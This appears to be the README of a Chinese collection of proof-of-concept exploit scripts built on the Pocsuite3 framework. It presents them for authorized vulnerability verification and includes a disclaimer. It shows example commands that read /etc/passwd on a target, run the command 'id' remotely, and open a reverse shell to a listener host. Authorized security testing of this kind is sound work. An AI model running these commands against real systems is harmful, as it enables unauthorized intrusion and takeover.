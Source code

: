 # PeiQi-WiKi-PocSuite3 文库🐑

## 关于项目

项目主要用于安全人员在授权的情况下，更加快速的使用POC/EXP来验证漏洞

漏洞的验证主要使用由知道创宇开发的Github开源项目Pocsuite3框架，在多个开源漏洞验证的框架中，Pocsuite3集合了漏洞利用和验证等功能，而使用Python语言来编写POC/EXP则大大减少了编写所花费的时间，也方便安全研究人员扩展使用方式，在此十分感谢框架的开发人员

Github地址 : https://github.com/knownsec/pocsuite3

![](image/image-1.png)

## 使用需知

POC/EXP 仅仅只供对已授权的目标使用测试，对未授权目标的测试PeiQi文库不承担责任，均由本人自行承担

本文库中的漏洞均为公开的漏洞收集，如果文库中的漏洞出现敏感内容产生了部分影响，请及时联系作者删除漏洞，望谅解~

## 公众号

![](image/image-2.png)

## 关于使用

```
文件读取验证
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --attack --filename "/etc/passwd"
```
![](image/image-3.png)

```
命令执行验证
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --attack --command "id"
```
![](image/image-4.png)

```
反弹Shell验证   
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --shell --lhost "xxx.xxx.xxx.xxx"
```
![](image/image-5.png)

## 最后

> 别忘了Github下载完给个小星星⭐

[![Stargazers over time](https://starchart.cc/PeiQi0/PeiQi-WIKI-PocSuite3.svg)](https://github.com/PeiQi0/PeiQi-WIKI-PocSuite3)

